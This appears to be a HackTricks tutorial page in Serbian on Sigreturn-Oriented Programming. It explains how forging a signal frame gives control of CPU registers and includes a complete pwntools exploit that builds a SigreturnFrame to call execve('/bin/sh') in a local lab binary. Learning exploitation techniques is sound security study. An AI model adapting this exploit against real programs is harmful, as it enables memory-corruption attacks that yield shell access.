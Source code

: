 # SROP - Sigreturn-Oriented Programming

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJATELJSTVO**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**Porodicu PEASS**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## Osnovne informacije

**`Sigreturn`** je poseban **syscall** koji se uglavnom koristi za čišćenje nakon što je signalni rukovalac završio svoje izvršavanje. Signali su prekidi koje operativni sistem šalje programu, često da bi ukazao da se desila neka izuzetna situacija. Kada program primi signal, privremeno pauzira svoj trenutni rad kako bi obradio signal pomoću **signalnog rukovaoca**, posebne funkcije dizajnirane za rukovanje signalima.

Nakon što signalni rukovalac završi, program mora da **nastavi svoje prethodno stanje** kao da se ništa nije desilo. Tu dolazi do izražaja **`sigreturn`**. Pomaže programu da **izađe iz signalnog rukovaoca** i vraća stanje programa čišćenjem okvira steka (sekcija memorije koja čuva pozive funkcija i lokalne promenljive) koji je korišćen od strane signalnog rukovaoca.

Interesantan deo je kako **`sigreturn`** vraća stanje programa: to radi tako što čuva **sve vrednosti registara CPU-a na steku.** Kada signal više nije blokiran, **`sigreturn` izbacuje ove vrednosti sa steka**, efikasno resetujući registre CPU-a na njihovo stanje pre rukovanja signalom. To uključuje registar pokazivača steka (RSP), koji pokazuje na trenutni vrh steka.

{% hint style="info" %}
Pozivanjem syscall-a **`sigreturn`** iz ROP lanca i **dodavanjem vrednosti registara** koje želimo da učita u **stek** moguće je **kontrolisati** sve vrednosti registara i stoga **pozvati** na primer syscall `execve` sa `/bin/sh`.
{% endhint %}

Primetite kako bi ovo bila **vrsta Ret2syscall** koja olakšava kontrolisanje parametara za pozivanje drugih Ret2syscall-ova:

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

Za bolje objašnjenje pogledajte takođe:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Primer

Možete [**pronaći primer ovde**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), iako je ovo konačan eksploit od tamo:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

## Reference

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**PLANOVE ZA PRIJAVU**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
